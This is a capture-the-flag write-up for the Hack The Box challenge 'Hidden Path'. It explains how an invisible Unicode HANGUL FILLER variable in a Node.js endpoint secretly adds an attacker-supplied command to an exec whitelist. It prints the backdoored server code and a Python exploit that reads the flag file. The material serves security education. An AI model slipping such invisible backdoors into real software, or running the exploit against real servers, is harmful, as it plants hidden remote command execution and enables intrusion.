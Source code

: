 ![](../../../../../assets/logo_htb.png)



<img src="../../../../../assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    	<font size="10">Hidden Path</font>

​		17<sup>th</sup> April 2024

​		Prepared By: ir0nstone

​		Challenge Author(s): ir0nstone

​		Difficulty: <font color=green>Easy</font>

​		Classification: Official

 



# Synopsis

Hidden Path is an easy difficulty misc challenge that features an JavaScript backdoor utilising invisible Unicode characters. 

# Description

Legends speak of the infamous **Kamara-Heto**, a black-hat hacker of old who rose to fame as they brought entire countries to their knees. Opinions are divided over whether the fabled figure truly existed, but the success of the team surely lies in the hope that they did, for the location of the lost vault is only known to be held on what remains of the NSA's data centres. You have extracted the source code of a system check-up endpoint - can you find a way in? And was Kamara-Heto ever there?

## Skills Required

- Basic JavaScript
- Research

## Skills Learned

- Unicode
- Interacting with HTTP Servers programmatically

# Enumeration

We are given the server code in `app.js`. There are two main endpoints, `/` and `/server_status`. `/` is a GET endpoint that just returns the contents of `index.html`:

```js
app.get('/', async (req, res) => {
    res.sendFile(path.join(__dirname, '/public/html/index.html'));
})
```

Upon connecting to the service, `index.html` loads a selection of radio buttons. Each radio button represents a different command that can be run on the remote server. Upon submission, the `submitCommand()` function in `index.js` is called:

```js
function submitCommand() {
    const radios = document.forms['commandForm'].elements['command'];
    let choiceIndex = -1;

    for (let i = 0; i < radios.length; i++) {
        if (radios[i].checked) {
            choiceIndex = i;
            break;
        }
    }

    if (choiceIndex === -1) {
        return false;
    }

    fetch('/server_status', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: `choice=${encodeURIComponent(choiceIndex)}`
    })
    .then(response => response.text())
    .then(data => {
        document.getElementById('response').textContent = data;
    })
    .catch(error => {
        console.error('Error:', error);
        document.getElementById('response').textContent = 'Failed to fetch data';
    });
    return false;
}
```

The code here just sends the index of the command to run. This is a good approach to preventing command injection, as the array of valid commands is predetermined rather than having the command itself be sent.

The `choice` is sent to the `/server_status` endpoint:

```js
app.post('/server_status', async (req, res) => {
    const { choice,ㅤ} = req.body;
    const integerChoice = +choice;
    
    if (isNaN(integerChoice)) {
        return res.status(400).send('Invalid choice: must be a number');
    }

    const commands = [
        'free -m',
        'uptime',
        'iostat',
        'mpstat',
        'netstat',
        'ps aux',ㅤ
    ];

    if (integerChoice < 0 || integerChoice >= commands.length) {
        return res.status(400).send('Invalid choice: out of bounds');
    }

    exec(commands[integerChoice], (error, stdout) => {
        if (error) {
            return res.status(500).send('Error executing command');
        }

        res.status(200).send(stdout);
    });
});
```

The endpoint validates that `choice` is a number, and then that it is in range. If so, it will execute the command using `exec` and send the result back.

# Solution
So where is the vulnerability? Well if we pay attention to the challenge name and description, the idea of a backdoor may come to us. But where is the backdoor?

This challenge takes inspiration from [this article](https://certitude.consulting/blog/en/invisible-backdoor/), which outlines the bulk of the method. The Unicode character `ㅤ` (`U+3164`) looks a lot like a space and is called a _HANGUL FILLER_. Because it is in the category _Letter, other_, JS considers it a valid letter in a variable. In the initial article, VS Code does not note it, but as of [Version 1.63](https://code.visualstudio.com/updates/v1_63#_unicode-highlighting) there is a _Unicode Highlighting_ option on by default that will show it:

![VS Code](assets/vscode.png)

Many other tools won't note it, including vim, where it just looks slightly different to a space:

![vim](assets/vim.png)

This is especially hidden because a trailing `,` is perfectly valid for JavaScript arrays, making it look like it's just a strange stylistic choice.

So where is this `ㅤ` variable defined? Well from the screenshot we can see that it is here:

```js
const { choice,[HERE]} = req.body;
```

and it is used here:

```js
const commands = [
    'free -m',
    'uptime',
    'iostat',
    'mpstat',
    'netstat',
    'ps aux',[HERE]
];
```

What does this mean? Well, if we rename the variable to `a`, the vector becomes clear:

```js
app.post('/server_status', async (req, res) => {
    const { choice,a} = req.body;
    const integerChoice = +choice;
    
    if (isNaN(integerChoice)) {
        return res.status(400).send('Invalid choice: must be a number');
    }

    const commands = [
        'free -m',
        'uptime',
        'iostat',
        'mpstat',
        'netstat',
        'ps aux',a
    ];

    if (integerChoice < 0 || integerChoice >= commands.length) {
        return res.status(400).send('Invalid choice: out of bounds');
    }

    exec(commands[integerChoice], (error, stdout) => {
        if (error) {
            return res.status(500).send('Error executing command');
        }

        res.status(200).send(stdout);
    });
});
```

It reads `a` from the body of the POST request, and also adds it to the `commands` list (at index `6`)! This means that by defining this hidden variable in the POST request data, we can run our custom command by triggering choice `6` - a valid choice, as the length of the array is actually `7` - which will select our custom command as the parameter to `exec`!

The following Python code will do this for us:

```py
from requests import post

URL = 'http://127.0.0.1:1337/check_system'

params = {
    'choice': 6,
    '\u3164': 'cat /flag*.txt'      # HANGUL FILLER
}

r = post(URL, data=params)
print(r.text)
```

Running it against the remote service, we get the flag!
